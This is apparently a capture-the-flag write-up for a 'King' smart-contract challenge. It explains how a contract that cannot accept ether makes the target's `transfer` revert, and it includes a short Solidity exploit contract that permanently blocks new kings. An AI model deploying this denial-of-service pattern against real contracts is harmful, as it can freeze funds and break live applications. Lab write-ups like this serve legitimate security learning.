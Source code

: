 # King

The `transfer` function will revert if the transaction fails. We can use this to break the King contract by crafting a smart contract that does not accept payments through typical means. Since the King contract reverts before assigning a new king, a new king will never be crowned (mwahaha).

```javascript
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract SoSelfless {
    constructor(address payable _instance) payable {
        _instance.call{value: msg.value}("");
    }
}
```